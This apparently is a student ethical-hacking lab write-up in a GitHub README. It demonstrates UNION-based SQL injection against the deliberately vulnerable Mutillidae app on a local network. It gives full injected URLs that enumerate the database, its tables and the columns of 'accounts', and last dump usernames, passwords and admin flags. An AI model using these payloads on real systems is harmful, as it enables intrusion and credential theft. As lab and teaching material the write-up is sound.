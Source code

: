 ![image](https://github.com/CodesWithRobi/EH-LAB08-SQL-Injection/assets/130537166/d69b786b-122e-4676-99df-ed71d08c2075)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/CodesWithRobi/EH-LAB08-SQL-Injection/assets/130537166/58164b10-70cf-4180-8808-1170e8ca8bd1)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.


![image](https://github.com/CodesWithRobi/EH-LAB08-SQL-Injection/assets/130537166/4341dcbe-1e07-4660-b9f3-3abe80330479)




The column names of the accounts is displayed below for the following url:


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![image](https://github.com/CodesWithRobi/EH-LAB08-SQL-Injection/assets/130537166/4f649edd-cb7b-4053-9209-8dcd7977c675)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=robinson%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/CodesWithRobi/EH-LAB08-SQL-Injection/assets/130537166/8b3b5065-eae8-48cb-a650-ac6b176c776c)

